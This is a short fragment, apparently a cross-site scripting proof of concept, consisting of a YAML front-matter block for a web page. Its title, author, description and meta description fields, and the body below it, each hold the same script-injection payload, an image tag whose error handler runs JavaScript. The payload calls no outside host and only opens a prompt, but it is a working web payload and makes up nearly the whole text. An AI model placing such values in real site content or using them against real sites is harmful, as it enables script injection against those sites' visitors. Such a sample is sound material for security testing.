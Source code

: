 ```yaml
---
title: <img src=x onError=prompt(1)>
author: <img src=x onError=prompt(1)>
description: <img src=x onError=prompt(1)>
meta_description: <img src=x onError=prompt(1)>
twitter_image: /img/dnt.svg
date: 2023-01-28T04:03:00.035Z
---
```

<img src=x onError=prompt(1)>